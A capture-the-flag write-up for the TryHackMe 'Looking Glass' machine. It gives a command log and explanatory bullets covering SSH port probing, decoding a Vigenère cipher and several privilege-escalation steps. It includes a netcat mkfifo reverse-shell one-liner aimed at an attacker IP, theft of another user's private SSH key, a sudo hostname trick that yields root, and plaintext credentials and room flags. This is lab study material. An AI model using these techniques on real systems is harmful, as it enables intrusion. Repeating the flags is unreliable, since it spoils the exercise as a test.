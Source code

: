 # Looking Glass - Medium

```shell
nmap -T4 -A 10.10.151.254

ssh 10.10.220.172 -p 11111

ssh -oHostKeyAlgorithms=+ssh-rsa 10.10.220.172 -p 11111
#lower

ssh -oHostKeyAlgorithms=+ssh-rsa 10.10.220.172 -p 12000
#higher

ssh -oHostKeyAlgorithms=+ssh-rsa 10.10.220.172 -p 11168
#this gives us a challenge
#decode poem, get secret to get creds

ssh jabberwock@10.10.220.172

sudo -l

cat /etc/crontab

ls -la

cat twasBrillig.sh

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.31.212 5555 >/tmp/f' > twasBrillig.sh

#setup listener on attacker machine
nc -nvlp 5555

sudo /sbin/reboot

#in our listener, we get reverse shell
id
#tweedledum

ls -la

cat humptydumpty.txt
#crack hash
#no clue

sudo -l

sudo -u tweedledee /bin/bash

python3 -c 'import pty;pty.spawn("/bin/bash")'

cd /home/tweedledee

ls -la
#same files as tweedledum

su humptydumpty
#use password found by cracking last code from hex

cd /home/humptydumpty

ls -la

#use linpeas to check for privesc

ls /home
#alice directory has execute permissions

#get alice private key
cat /home/alice/.ssh/id_rsa

#in attacker machine
#copy private key
vim id_rsa

chmod 600 id_rsa

ssh alice@10.10.155.139 -i id_rsa

#using hint found in linpeas
cat /etc/sudoers.d/alice

sudo -h ssalg-gnikool /bin/bash
#root shell
```

* Port 22 is open, and multiple other ports have Dropbear sshd running on them.

* We can start by attempting to connect to some of the ports to check for clues.

* We have to add the flag for ```-oHostKeyAlgorithms=+ssh-rsa``` in order to make the connection work.

* Connecting to each port gives a response text - Higher or Lower - this could be related to the port number.

* After experimenting with the commands, and looking at the hint 'mirror', we can infer that Higher means Lower and Lower means Higher - this can be used to get the right port number.

* Eventually, on the right port, we find the service required and there is a challenge.

* The challenge is ciphertext; which seems like rotated text but can be actually cracked using online tools which crack Vignere ciphers automatically.

* Using online tools, we get the key 'thealphabetcipher'; this decodes the poem and gives us the secret "bewareTheJabberwock".

* When the secret is fed to the challenge on the required port, we get random creds jabberwock:CoveredPlungedFaintAssistance

* Using this, we can log into SSH on port 22.

* Now, the flag found is reversed, so we need to reverse it using online tools to get the actual flag.

* Now, for privesc, we can see that we are allowed to execute /sbin/reboot as root; furthermore, there is a cronjob scheduled which runs on reboot.

* The cronjob is run as tweedledum and it runs a script.

* The script prints out the poem on reboot; however, we have write permissions to the poem, so we can launch reverse shell by adding a one-liner to the script.

* After modifying the script, setting up listener and rebooting using sudo, we get reverse shell in two minutes.

* We get shell as tweedledum now.

* There's a file which contains a string; it seems to be a hash list.

* All the hashes except the last one can be cracked using online services, and the cracked ones say 'maybe one of these is the password'.

* We can attempt to crack the last hash using other online services, but we do not get anything.

* 'sudo -l' shows that we can run /bin/bash as tweedledee.

* We can do that to get shell as tweedledee, and check the files in their home directory, but we do not get anything of use.

* Looking at the humptydumpty.txt file again, the last hash when fed into CyberChef, can be cracked from hex to give us a password 'zyxwvutsrqponmlk'.

* We can use this password and attempt to login as humptydumpty, and we are able to.

* We can use linpeas for privesc but it does not give us anything useful except showing that /etc/sudoers.d/alice is readable.

* Checking for privesc, we can see /home directory permissions - /home/alice has execute permissions for all users.

* We can use this to get the private key for alice, and login as alice into SSH.

* From the previous hint given by linpeas.sh, we can read the sudoers file and see that alice can run bash as root on machine 'ssalg-gnikool', reverse for looking-glass, the hostname.

* Using 'sudo -h' for hostname, we can use that command to get root.

```markdown
1. Get the user flag - thm{65d3710e9d75d5f346d2bac669119a23}

2. Get the root flag - thm{bc2337b6f97d057b01da718ced6ead3f}
```
